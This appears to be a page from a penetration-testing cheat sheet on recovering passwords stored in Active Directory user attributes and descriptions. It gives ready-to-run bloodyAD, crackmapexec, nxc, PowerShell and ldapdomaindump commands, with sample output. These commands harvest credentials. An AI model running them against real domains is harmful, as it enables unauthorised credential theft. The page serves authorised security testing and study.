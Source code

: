# Password - AD User Comment

There are 3-4 fields that seem to be common in most Active Directory schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.

* Windows/Linux command
    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(|(userPassword=*)(unixUserPassword=*)(unicodePassword=*)(description=*))' --attr userPassword,unixUserPassword,unicodePwd,description
    ```

* Password in User Description
    ```powershell
    crackmapexec ldap domain.lab -u 'username' -p 'password' -M user-desc
    crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
    GET-DESC... 10.0.2.11       389    dc01    [+] Found following users: 
    GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
    GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
    ```

* Get `unixUserPassword` attribute from all users in ldap
    ```ps1
    nxc ldap 10.10.10.10 -u user -p pass -M get-unixUserPassword -M getUserPassword
    ```

* Native Powershell command
    ```powershell
    Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
    ```

* Dump the Active Directory and `grep` the content.
    ```powershell
    ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
    ```